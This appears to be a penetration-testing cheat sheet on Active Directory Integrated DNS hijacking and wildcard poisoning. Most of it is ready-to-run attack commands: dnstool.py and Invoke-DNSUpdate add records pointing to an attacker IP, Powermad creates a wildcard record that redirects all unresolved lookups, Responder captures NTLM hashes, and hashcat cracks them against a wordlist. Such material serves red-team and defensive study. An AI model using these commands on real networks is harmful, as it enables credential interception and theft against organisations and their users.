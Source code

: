 # ADIDNS Hijacking

### Tools: dnstool.py, responder, Powermad, Invoke-DNSUpdate

## Requirements:

### A victim tries to connect to a domain that is NOT CONFIGURED. Which means that we can make the domain point to OUR IP address instead.

    python3 dnstool.py -u DOMAIN.LOCAL\\USER.NAME -p 'PASS' DOMAIN.LOCAL -r HIJACKED.DOMAIN.LOCAL -a add -d TARGET_IP -dns-ip OUR_IP

    sudo responder -I tun0 (Capture NTLM Hash of victim)

    hashcat -m 5600 -a 0 ntlmhash.txt /usr/share/wordlist/rockyou.txt (Crack hash)

# ADIDNS Poisoning

How to deal with the Active Directory Integrated DNS and redirect the NTLM authentications to us

1) By default, any user can create new ADIDNS records

2) But it is not possible to change or delete a record we are not owning

3) By default, the DNS will be used first for name resolution in the AD, and then NBT-NS, LLMNR, etc

If the wilcard record (*) doesn't exist, we can create it and all the authentications will arrive on our listener, except if the WPAD configuration specifically blocks it.

## Wildcard attack with Powermad

The char * can't be added via DNS protocol because it will break the request. Since we are in an AD we can modify the DNS via LDAP. This is what Powermad do:

##### get the value populated in the DNSRecord attribute of a node

    Get-ADIDNSNodeAttribute -Node * -Attribute DNSRec

##### creates a wildcard record, sets the DNSRecord and DNSTombstoned attributes

    New-ADIDNSNode -Tombstone -Verbose -Node * -Data $IP

##### enable a tombstoned record

    Enable-ADIDNSNode -Node *

##### disable a node

    Disable-ADIDNSNode -Node *

##### remove a node

    Remove-ADIDNSNode -Node *

##### check the wildcard record works/resolve a name

    Resolve-DnsName NameThatDoesntExist

## DNS update with Invoke-DNSUpdate

To work with "classic" record, i.e. not wildcard record

    Invoke-DNSUpdate -DNSType A -DNSName test.domain.local -DNSData <attacker_IP> -Realm domain.local
